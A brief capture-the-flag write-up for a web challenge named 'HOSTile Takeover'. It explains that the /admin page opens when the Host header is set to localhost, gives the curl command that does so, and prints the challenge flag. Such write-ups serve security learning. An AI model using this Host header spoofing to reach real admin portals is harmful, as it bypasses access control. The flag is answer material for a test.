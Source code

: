 # HOSTile Takeover
> Seems we're unable to access our important admin portal. It worked perfectly fine when we were at our headquarters. Can you help us out? Try to gain access to the admin page and find the secret key!

> https://nicc-hostile-takeover.chals.io

## About the Challenge
We were given a website and We need to access the `/admin` endpoint

![preview](images/preview.png)

## How to Solve?
This chall is about `Host Header Attack`. We need to change the `Host` HTTP Header from `nicc-hostile-takeover.chals.io` to `localhost`. You can use `Repeater` on burpsuite or you can use `curl` like me

```
curl "https://nicc-hostile-takeover.chals.io/admin" -H "Host: localhost"
```

![flag](images/flag.png)

```
nicc{H0ST_H3AdEr_AtTack}
```